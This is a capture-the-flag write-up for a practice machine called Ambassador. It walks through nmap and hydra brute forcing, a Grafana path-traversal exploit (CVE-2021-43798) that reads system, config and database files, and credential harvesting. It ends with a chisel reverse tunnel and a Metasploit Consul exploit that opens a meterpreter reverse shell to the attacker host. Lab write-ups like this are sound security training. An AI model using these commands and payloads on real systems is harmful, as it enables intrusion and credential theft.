


## Enumeration

```bash
nmap -T4 -p- 10.10.11.183
```

* Ports found

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
3306/tcp open  mysql
```

## SSH

Found a post with the following text

```bash
Hi there! This server exists to provide developers at Ambassador with a standalone development environment. When you start as a developer at Ambassador, you will be assigned a development server of your own to use.
Connecting to this machine

Use the developer account to SSH, DevOps will give you the password.
```

Option number 1 brute force ssh with hydra and developer account

```bash
hydra -l developer -P /usr/share/wordlists/rockyou.txt 10.10.11.183 ssh
```

:::danger
DEAD END
:::

## HTTP

### Apache Version

Both nmap and metasploit point to version 2.4.41

### List Dirs

```bash
dirb http://10.10.11.183/
```

```
START_TIME: Tue Nov 29 15:49:30 2022
URL_BASE: http://10.10.11.183/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.11.183/ ----
==> DIRECTORY: http://10.10.11.183/categories/                                                                              
==> DIRECTORY: http://10.10.11.183/images/                                                                                  
+ http://10.10.11.183/index.html (CODE:200|SIZE:3654)                                                                       
==> DIRECTORY: http://10.10.11.183/posts/                                                                                   
+ http://10.10.11.183/server-status (CODE:403|SIZE:277)                                                                     
+ http://10.10.11.183/sitemap.xml (CODE:200|SIZE:645)                                                                       
==> DIRECTORY: http://10.10.11.183/tags/                                                                                    
                                                                                                                            
---- Entering directory: http://10.10.11.183/categories/ ----
^Y                                                                                                                           + http://10.10.11.183/categories/index.html (CODE:200|SIZE:2330)                                                            
                                                                                                                            
---- Entering directory: http://10.10.11.183/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                            
---- Entering directory: http://10.10.11.183/posts/ ----
+ http://10.10.11.183/posts/index.html (CODE:200|SIZE:3140)                                                                 
==> DIRECTORY: http://10.10.11.183/posts/page/                                                                              
2.4.41                                                                                                                                                                                                                                                   
---- Entering directory: http://10.10.11.183/tags/ ----
+ http://10.10.11.183/tags/index.html (CODE:200|SIZE:2288)                                                                  
                                                                                                                            
---- Entering directory: http://10.10.11.183/posts/page/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Tue Nov 29 15:56:43 2022
DOWNLOADED: 18448 - FOUND: 6

```

:::danger
DEAD END
:::

## MYSQL

Possible version MySQL 8.0.30-0ubuntu0.20.04.2

### Default Credentials

Try to connect to db with root and developer credetial without password

```bash
mysql -h 10.10.11.183 -u root
ERROR 1045 (28000): Access denied for user 'root'@'10.10.14.99' (using password: NO)

mysql -h 10.10.11.183 -u developer
ERROR 1045 (28000): Access denied for user 'developer'@'10.10.14.99' (using password: NO)
```

No success.

### Brute force

```bash
hydra -l root -P  /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.10.11.183 mysql
hydra -l developer -P  /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.10.11.183 mysql
```

:::danger
DEAD END
:::

## Grafana

Version: v8.2.0 (d7f71e9eae) found a CVE-2021-43798 on that version that affects Grafana 8.0.0-beta1 to 8.3.0

```bash
curl --path-as-is http://10.10.11.183:3000/public/plugins/alertGroups/../../../../../../../../etc/passwd
```

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false

```

* Try dump grafana.ini information

```bash
curl --path-as-is http://10.10.11.183:3000/public/plugins/alertGroups/../../../../../../../../etc/grafana/grafana.ini
```

* Interesting findings

```
[database]
# You can configure the database connection by specifying type, host, name, user and password
# as separate properties or as on string using the url properties.

# Either "mysql", "postgres" or "sqlite3", it's your choice
;type = sqlite3
;host = 127.0.0.1:3306
;name = grafana
;user = root
# If the password contains # or ; you have to wrap it with triple quotes. Ex """#password;"""
;password =


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
```

### Grafana interface

user: admin

pass: messageInABottle685427

### Grafana DB

* Dump DB

```bash
curl --path-as-is http://10.10.11.183:3000/public/plugins/alertGroups/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```

* Try to find the DB user

```bash
sqlite3 grafana.db
.tables
select * from data_source;

2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2022-11-29 15:08:11|0|{}|1|uKewFgM4z

```



## Mysql with Grafana user

```bash
mysql -h 10.10.11.183 -u grafana -p

password: dontStandSoCloseToMe63221!
```

```bash
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 55
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.032 sec)
```

Inside the `whackywidget` database we can find the `developer` credential with base64

```sql
MySQL [(none)]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> select * from users; \G
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.028 sec)

ERROR: No query specified

MySQL [whackywidget]> 

```

* Decode the password

```bash
echo -n "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" |base64 -d
```

:::warning
```
password: anEnglishManInNewYork027468
```
:::



## Post exploitation

Try to get root with the machine

### LinPEAS

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
scp linpeas_linux_amd64 developer@10.10.11.183:~/
./linpeas_linux_amd64
```

As always LinPEAS show A LOT of information, I try some CVEs like `CVE-2021-3560` and `CVE-2022-2588` however, none of them worked.

I also find an interesting git folder

```
╔══════════╣ Analyzing Github Files (limit 70)
                                                                                                                                 
-rw-rw-r-- 1 developer developer 93 Sep  2 02:28 /home/developer/.gitconfig


drwxrwxr-x 8 root root 4096 Mar 14  2022 /opt/my-app/.git

```

* Navigate to my-app and see history

```bash
cd /opt/my-app/.git
git config --global --add safe.directory /opt/my-app/.git
git log
```

```
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

commit c982db8eff6f10f8f3a7d802f79f2705e7a21b55
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:44:45 2022 +0000

    config script

commit 8dce6570187fd1dcfb127f51f147cd1ca8dc01c6
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:47:01 2022 +0000

    created project with django CLI

commit 4b8597b167b2fbf8ec35f992224e612bf28d9e51
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:44:11 2022 +0000

    .gitignore

```

Looking at the first commit we can see the consul authentication token

```bash
developer@ambassador:/opt/my-app/.git$ git show 33a53ef9a207976d5ceceddc41a199558843bf3c
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD

```

## Consul

The best bet so far seems to use consul(port 8500) with a Metasploit method to root the machine, however, the service is not exposed


* searchexploit

```
searchsploit consul                                        
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
Hashicorp Consul - Remote Command Execution via Rexec (Metasploit)                             | linux/remote/46073.rb
Hashicorp Consul - Remote Command Execution via Services API (Metasploit)                      | linux/remote/46074.rb
Hassan Consulting Shopping Cart 1.18 - Directory Traversal                                     | cgi/remote/20281.txt
Hassan Consulting Shopping Cart 1.23 - Arbitrary Command Execution                             | cgi/remote/21104.pl
PHPLeague 0.81 - '/consult/miniseul.php?cheminmini' Remote File Inclusion                      | php/webapps/28864.txt
----------------------------------------------------------------------------------------------- -----------------------------
```

* Service

```bash
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      0          38167      -                   
```

Let's use [chisel](https://github.com/jpillora/chisel) to create a tunnel between the developer user and the attacker machine

* Remote machine

```bash
./chisel_1.7.7_linux_amd64 client 10.10.14.116:9999 R:8500:127.0.0.1:8500
```

* Attacker Machine

```bash
chisel server --reverse -p 9999
```

* Attacker machine Metasploit

```bash
msfconsole
use exploit/multi/misc/consul_service_exec
set ACL_TOKEN bb03b43b-1d81-d62b-24b5-39540ee469b5
set RHOSTS 10.10.14.116
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.14.116
exploit
```

```bash
meterpreter > sysinfo
Computer     : 10.10.11.183
OS           : Ubuntu 20.04 (Linux 5.4.0-126-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

## Flags

```bash
meterpreter > cat /root/root.txt 
88c87210ca65763b1bc3f3f3a01f9830

meterpreter > cat /home/developer/user.txt 
8d88f4e35465bba66c9c317b6b6d2bbc
```
